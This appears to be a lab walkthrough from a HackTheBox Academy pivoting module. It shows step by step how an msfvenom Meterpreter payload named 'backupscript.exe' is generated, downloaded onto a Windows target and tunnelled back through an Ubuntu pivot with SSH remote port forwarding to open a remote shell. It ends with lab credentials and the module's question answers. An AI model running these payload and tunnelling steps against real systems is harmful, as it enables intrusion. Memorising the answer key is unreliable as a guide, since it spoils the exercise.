

# Remote / Reverse Port Forwarding with SSH
When a compromised Windows host (Windows A) can only communicate within its internal network (172.16.5.0/23) and has no direct route to the attacker’s network (10.129.x.x), a standard reverse shell to the attack host will fail because the Windows machine cannot route traffic externally. In situations where RDP access alone is insufficient—such as when file transfers are restricted or advanced post-exploitation (e.g., Meterpreter) is required—a pivot host must be used. In this scenario, the Ubuntu server acts as the pivot because it can communicate with both the attack host and the Windows target. By generating a Meterpreter HTTPS payload configured to connect back to the Ubuntu server’s internal IP (172.16.5.129) and forwarding a chosen port (e.g., 8080) on Ubuntu to the attacker’s listener port (e.g., 8000), reverse shell traffic can be successfully tunneled through the pivot host to establish a session on the attack machine.



### Creating a Windows Payload with msfvenom

```sh
masterofblafu@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

### Configuring & Starting the multi/handler

```sh
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

### Transferring Payload to Pivot Host
Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the `scp` command since we already have the credentials to connect to the Ubuntu server using SSH.

```sh
masterofblafu@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00
```

### Starting Python3 Webserver on Pivot Host
After copying the payload, we will start a `python3 HTTP server` using the below command on the Ubuntu server in the same directory where we copied our payload.

```sh
ubuntu@Webserver$ python3 -m http.server 8123
```

### Downloading Payload on the Windows Target

```sh
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

### Using SSH -R
Once we have our payload downloaded on the Windows host, we will use **SSH remote port forwarding** to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our attack host.

```sh
masterofblafu@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

### Viewing the Logs from the Pivot
After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

```sh
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```

### Meterpreter Session Established
If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

```sh
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the **local SSH socket**, which created an **outbound** connection to the Ubuntu server.

## Questions
SSH to **10.129.2.213** (ACADEMY-PIVOTING-LINUXPIV), with user `ubuntu` and password `HTB_@cademy_stdnt!`
1. Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x) **Answer: 172.16.5.129**
   - SSH to the pivot host and read the IP address of the ens224 NIC:
        ```sh
        $ ssh ubuntu@10.129.2.213
        ubuntu@WEB01:~$ ip a
        1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
            link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
            inet 127.0.0.1/8 scope host lo
            valid_lft forever preferred_lft forever
            inet6 ::1/128 scope host 
            valid_lft forever preferred_lft forever
        2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
            link/ether 00:50:56:b0:43:6b brd ff:ff:ff:ff:ff:ff
            inet 10.129.2.213/16 brd 10.129.255.255 scope global dynamic ens192
            valid_lft 3402sec preferred_lft 3402sec
            inet6 dead:beef::250:56ff:feb0:436b/64 scope global dynamic mngtmpaddr 
            valid_lft 86397sec preferred_lft 14397sec
            inet6 fe80::250:56ff:feb0:436b/64 scope link 
            valid_lft forever preferred_lft forever
        3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
            link/ether 00:50:56:b0:81:e5 brd ff:ff:ff:ff:ff:ff
            inet 172.16.5.129/23 brd 172.16.5.255 scope global ens224
            valid_lft forever preferred_lft forever
            inet6 fe80::250:56ff:feb0:81e5/64 scope link 
            valid_lft forever preferred_lft forever
        ```
2. What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x) **Answer: 0.0.0.0**